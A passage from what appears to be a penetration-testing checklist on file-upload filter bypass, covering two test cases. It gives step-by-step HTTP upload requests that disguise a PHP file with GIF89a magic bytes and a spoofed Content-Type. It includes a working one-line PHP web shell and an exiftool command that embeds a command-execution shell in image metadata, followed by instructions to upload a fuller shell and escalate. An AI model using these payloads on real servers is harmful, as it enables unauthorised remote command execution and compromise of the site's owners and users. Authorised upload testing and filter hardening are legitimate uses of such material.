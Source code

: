 ## Test Case - 5: Content Bypass / Using Magic Bytes

```markdown
1. Find the upload request and send it to the repeater
2. Try all Four above bypass first, if they doesn't works then see if file content is been
   checked. Try all five of this case in combo for more success rate.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

3. Change the Content-Type: application/x-php to Content-Type: image/gif and Add the
   text "GIF89a;" before you shell-code.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>

4. Try more from here https://en.wikipedia.org/wiki/List_of_file_signatures and change
   Content-Type: accordingly
5. If successful upload better Shell and POC, and see how can you increase critically.
```

## Test Case - 6: Magic Bytes and Metadata Shell

```markdown
1. Find the upload request and send it to the repeater
2. Try all above bypass first, if they doesn't works then see if file content is been
   checked. Try all six of this case in combo for more success rate.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

4. First Bypass Content-Type checks by setting the value of the
   Content-Type header to: image/png , text/plain , application/octet-stream
5. Introduce the shell inside the metadata using tool exiftool.

exiftool -Comment="<?php echo 'Command:'; if($_POST){system($\_POST['cmd']);} \_\_halt_compiler();" img.jpg

6. Now try uploading this modified img.jpg
7. Exploit further to increase critically.
```
